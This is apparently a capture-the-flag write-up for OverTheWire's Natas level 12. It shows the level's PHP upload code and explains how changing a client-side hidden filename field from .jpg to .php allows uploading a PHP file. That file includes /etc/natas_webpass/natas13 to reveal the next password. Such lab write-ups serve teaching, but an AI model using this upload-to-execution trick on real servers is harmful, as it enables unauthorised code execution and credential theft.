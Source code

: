# Level 12


URL : http://natas12.natas.labs.overthewire.org/


## Solution

here is the source code for the uploader:

```php
<?
function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";    

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

```

The code above is just the uploader, since there are no restrictions, except that the file size must be less than 1KB.  
we can upload any code we want, we only need to change one small thing


```php
<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<? } ?> 
```

On the third line: there is a hidden input with the name of **filename**. its the input responsible for the filename.
the value is set to `getRandomString().jpg`, and since its on the client side, we will change that to .php


#### Example PHP exploit code 

I have included the php file here.

```php
<?php
    include '/etc/natas_webpass/natas13';
?>
```

After changing .jpg to .php we can now upload our php file `exp.php`.

After you can visit the file you uploaded and get the flag : password for natas13.

